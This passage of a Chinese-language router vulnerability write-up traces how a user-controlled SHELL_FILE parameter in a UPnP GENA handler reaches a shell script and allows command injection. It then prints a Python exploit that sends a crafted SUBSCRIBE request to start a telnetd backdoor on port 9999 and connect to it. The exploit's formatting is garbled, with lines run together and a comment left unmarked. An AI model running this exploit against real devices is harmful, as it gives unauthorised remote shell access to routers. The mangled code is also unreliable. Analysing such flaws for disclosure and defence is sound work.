 数据现在由 PHP 文件`run.NOTIFY.php`进行处理，其中请求方法会被再次验证。  

![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOtIG0ZWCWkgic6t1bJ8ooVuvVvEzSjxH8fQBnaub4XUq0y8uicL2LdOWLA9oB1W9W9EDXGvHiaQxxjuw/640?wx_fmt=png)

该脚本会调用 PHP 函数`GENA_subscribe_new()`，并向其传递 cgibin 程序中`genacgi_main()`函数获得的变量，还包括变量`SHELL_FILE`。

文件：gena.php，函数`GENA_subscribe_new()。`

![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOtIG0ZWCWkgic6t1bJ8ooVuvWJcf3AyniauHbXaGkQJBDibpGVoqLKicU43E4dmp7gN9JKz3NHnW8jYSA/640?wx_fmt=png)

`GENA_subscribe_new()`函数并不修改`$shell_file`变量。

gena.php，`GENA_notify_init()`函数：

![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOtIG0ZWCWkgic6t1bJ8ooVuv7xUFmsibK5ibnHOBLsibYm48Gn5Vv7iaJkPeg1B0Wk2cAGKiaViaTPf8qMTg/640?wx_fmt=png)

这就是变量`SHELL_FILE`结束的地方，它是通过调用 PHP 函数 fwrite() 创建的新文件的名称的一部分。

这个函数被使用了两次：第一次创建文件，它的名字来自我们控制的`SHELL_FILE`变量以及 getpid() 的输出。第二次调用 fwrite() 向这个文件添加了一行，其中还使用了 rm 系统命令，以删除它自己。为了进行攻击，我们只需要插入一个反引号包裹的系统命令，然后将其注入到 shell 脚本中。

**- 04 -**

**漏洞验证**

exp 如下，通过这个漏洞，我们可以利用 telnet 服务来进行访问。因为这个漏洞是 UPnP 协议漏洞，一般处于局域网才能使用。  

```
import socket
import os
from time import sleep
Exploit By Miguel Mendez & Pablo Pollanco
def httpSUB(server, port, shell_file):
print('\n[] Connection {host}:{port}'.format(host=server, port=port)) con = socket.socket(socket.AF_INET, socket.SOCK_STREAM) request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n" request += "Host: " + str(server) + str(port) + "\n" request += "Callback: http://192.168.0.4:34033/ServiceProxy27\n" request += "NT: upnp:event\n" request += "Timeout: Second-1800\n" request += "Accept-Encoding: gzip, deflate\n" request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n" sleep(1) print('[] Sending Payload')
con.connect((socket.gethostbyname(server),port))
con.send(str(request))
results = con.recv(4096)
sleep(1)
print('[] Running Telnetd Service') sleep(1) print('[] Opening Telnet Connection\n')
sleep(2)
os.system('telnet ' + str(server) + ' 9999')
serverInput = '192.168.0.1'
portInput = 49152
httpSUB(serverInput, portInput, 'telnetd -p 9999 &')
```

这里使用`firmware-analysis-plus`框架仿真路由器。

地址：

https://github.com/liyansong2018/firmware-analysis-plus
